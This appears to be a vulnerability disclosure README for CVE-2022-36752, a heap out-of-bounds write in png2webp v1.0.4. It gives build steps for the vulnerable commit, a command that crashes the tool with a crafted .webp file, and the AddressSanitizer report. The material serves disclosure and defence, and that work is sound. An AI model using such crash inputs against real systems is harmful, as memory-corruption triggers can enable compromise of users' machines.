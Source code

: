 # CVE-2022-36752

png2webp v1.0.4 was discovered to contain an out-of-bounds write via the function w2p. This vulnerability is exploitable via a crafted webp file when reversing the format back to png.

## Reproduction

To reproduce the vulnerability, download the vulnerable version of png2webp (v1.0.4) and compile the project:

```
git clone https://github.com/landfillbaby/png2webp.git
cd png2webp
git checkout 0c7119109cde91127a263bf0af252e5e730f7fba
git submodule update --init --depth 1
./configure && make
```

Once the project has been compiled, we can point png2webp towards our malicious .webp file included in this repository (CVE-2022-36752_crash.webp):

```
./png2web -r CVE-2022-36752_crash.webp
```

The previous command will produce a crash and return an error message:

```
corrupted size vs. prev_size
```

To gain a better understanding of where the crash is taking place, lets recompile the project with address sanitizer (ASAN) by adding -fsanitize=address to the CFLAGS variable in the Makefile. We also want the compiler to store symbol table information in the executable (-g flag) to help us determine which line of code produced the crash:

```
ifeq (${uname_m},x86_64)
CFLAGS ?= -O3 -Wall -Wextra -pipe -flto=auto -DNDEBUG -march=x86-64-v2 -fsanitize=address -g
```

Next we will clean any stale files and recompile the project:

```
make clean
make
```

ASAN reports an invalid write of size 12 in the program, confirming the existance of an out-of-bounds write vulnerability:

```
==222970==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x602000000010 at pc 0x563e3ec4ee6a bp 0x7fff3a7b04d0 sp 0x7fff3a7b04c8
WRITE of size 12 at 0x602000000010 thread T0
    #0 0x563e3ec4ee69  (/dev/shm/png2webp/png2webp+0x23e69)
    #1 0x563e3ec3df34  (/dev/shm/png2webp/png2webp+0x12f34)
    #2 0x7fcfe4967189 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #3 0x7fcfe4967244 in __libc_start_main_impl ../csu/libc-start.c:381
    #4 0x563e3ec3e3f0  (/dev/shm/png2webp/png2webp+0x133f0)

0x602000000017 is located 0 bytes to the right of 7-byte region [0x602000000010,0x602000000017)
allocated by thread T0 here:
    #0 0x7fcfe4cae7cf in __interceptor_malloc ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:145
    #1 0x563e3ec46052  (/dev/shm/png2webp/png2webp+0x1b052)

SUMMARY: AddressSanitizer: heap-buffer-overflow (/dev/shm/png2webp/png2webp+0x23e69) 
Shadow bytes around the buggy address:
  0x0c047fff7fb0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fc0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fd0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fe0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7ff0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x0c047fff8000: fa fa[07]fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8010: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8020: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8030: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8040: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8050: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
  Shadow gap:              cc
==222970==ABORTING

```
## References
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-36752
* https://cwe.mitre.org/data/definitions/787.html
